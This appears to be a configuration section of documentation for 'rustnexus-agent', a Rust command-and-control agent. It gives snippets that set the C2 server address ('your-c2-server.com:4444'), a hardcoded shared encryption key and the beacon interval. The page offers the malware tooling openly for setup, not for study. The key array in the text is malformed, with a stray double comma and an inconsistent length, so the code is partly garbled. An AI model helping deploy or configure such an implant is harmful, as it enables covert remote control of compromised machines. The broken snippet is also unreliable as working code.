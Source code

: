 ## Agent Configuration

### Server Connection

The agent connects to `127.0.0.1:4444` by default. This can be changed by passing a command-line argument:

```
./rustnexus-agent 192.168.1.100:4444
```

To hardcode a different default:

```rust
fn main() {
    let args: Vec<String> = env::args().collect();
    let server_addr = if args.len() > 1 {
        &args[1]
    } else {
        "your-c2-server.com:4444"  // Change this default
    };
    
    let mut agent = Agent::new(server_addr);
    agent.run();
}
```

### Encryption Configuration

The agent uses a hardcoded encryption key that must match the server's key:

```rust
// In Agent::new(), update the key to match the server
let key = [
    // Must match the server's key
    0x01, 0x23, 0x45, 0x67, 0x89, 0xAB, 0xCD, 0xEF,
    0xFE, 0xDC, 0xBA, 0x98, 0x76, 0x54, 0x10,
    0x01, 0x23, 0x45, 0x67, 0x89, 0xAB, 0xCD, 0xEF,, 0xDC, 0xBA, 0x98, 0x76, 0x54, 0x32, 0x10,
];
```

### Heartbeat Interval

The agent checks in with the server every 60 seconds. To change this interval:

```rust
fn run(&mut self) {
    // Registration code...
    
    loop {
        // Heartbeat and task handling...
        
        // Change the sleep duration (e.g., to 2 minutes)
        thread::sleep(Duration::from_secs(120));
    }
}
```
